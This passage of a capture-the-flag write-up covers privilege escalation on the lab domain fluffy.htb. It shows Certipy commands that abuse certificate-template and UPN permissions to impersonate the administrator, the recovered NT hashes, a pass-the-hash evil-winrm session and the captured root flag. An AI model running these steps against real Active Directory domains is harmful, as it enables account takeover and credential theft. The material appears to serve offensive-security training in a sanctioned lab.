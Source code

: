
```python
!certipy account update -u winrm_svc@fluffy.htb -hashes :33bd09dcd697600edf6b3a7af4875767 -user ca_svc -upn ca_svc
```
```
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Updating user 'ca_svc':
        userPrincipalName                   : ca_svc
    [*] Successfully updated 'ca_svc'
```


```python
!certipy auth -pfx administrator.pfx -domain fluffy.htb
```
```log
    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@fluffy.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e
```


To sum up the above, often certificate templates have weird permissions that let us either use them for unintended purposes (login instead of server auth as an example), maybe they allow bad groups to use the template (like low privilege users making machine accounts for domain joins), or in this case just allowing bad properties to be updated along with the template generation (like us using ca_svc to make a certificate signed as a different upn.).
```sh
 evil-winrm -i fluffy.htb -H 8da83a3fa618b6e3a00e93f676c92a6e -u administrator
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
6023a978f0e27fbd077c3ad09bf55fd4
```